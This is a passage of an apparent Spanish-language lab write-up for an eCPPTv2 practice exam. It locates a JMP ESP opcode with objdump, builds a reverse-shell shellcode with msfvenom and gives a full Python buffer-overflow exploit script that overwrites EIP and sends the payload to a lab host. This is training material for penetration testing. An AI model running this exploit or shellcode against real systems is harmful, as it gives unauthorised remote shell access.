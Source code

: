 ![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 80.png)

El OPCode para JMP ESP corresponde a “ff e4”, ahora se buscará por direcciones en donde se aplique este OPCode en el binario con objdump.

```bash
objdump -D ./server_hogwarts | grep -i "ff e4"
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 81.png)

Esta es la dirección a la que apuntará el EIP.

Ahora toca crear el shellcode con msfvenom. Hay que tomar en cuenta que para que la shell llegue a la máquina del atacante, debe pasar de la máquina Nagini a la Aragog y de la Aragog al atacante, esto utilizando socat.

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=20.20.20.5 LPORT=7777 -b "\x00" -f py -v shellcode
```

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 82.png)

El script queda de la siguiente manera:

```bash
#!/usr/bin/python3

import socket
from struct import pack

# Variables globales
offset=112 # Cantidad de caracteres antes de sobrescribir el EIP
before_eip = b"A"*offset
eip = pack("<L", 0x8049d55) # EIP apunta al OPCode (JMP ESP)
# eip = b"\x55\x9d\x04\x08" <- Esta es una forma alternativa de representación
shellcode =  b""
shellcode += b"\xb8\xc0\xe8\x44\x67\xd9\xcb\xd9\x74\x24\xf4"
shellcode += b"\x5b\x33\xc9\xb1\x12\x83\xc3\x04\x31\x43\x0e"
shellcode += b"\x03\x83\xe6\xa6\x92\x32\x2c\xd1\xbe\x67\x91"
shellcode += b"\x4d\x2b\x85\x9c\x93\x1b\xef\x53\xd3\xcf\xb6"
shellcode += b"\xdb\xeb\x22\xc8\x55\x6d\x44\xa0\x7b\x93\xa8"
shellcode += b"\x36\xec\xa9\xd4\x28\x8d\x24\x35\xe4\x2b\x67"
shellcode += b"\xe7\x57\x07\x84\x8e\xb6\xaa\x0b\xc2\x50\x5b"
shellcode += b"\x23\x90\xc8\xcb\x14\x79\x6a\x65\xe2\x66\x38"
shellcode += b"\x26\x7d\x89\x0c\xc3\xb0\xca"

after_eip = b"\x90"*20 + shellcode
ip_addr = "30.30.30.5"
port = 9898

payload = before_eip + eip + after_eip

def exploit ():

    e = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    e.connect((ip_addr, port))

    e.send(payload)
    e.recv(1024)
    e.close

if __name__ == '__main__':
    exploit()
```

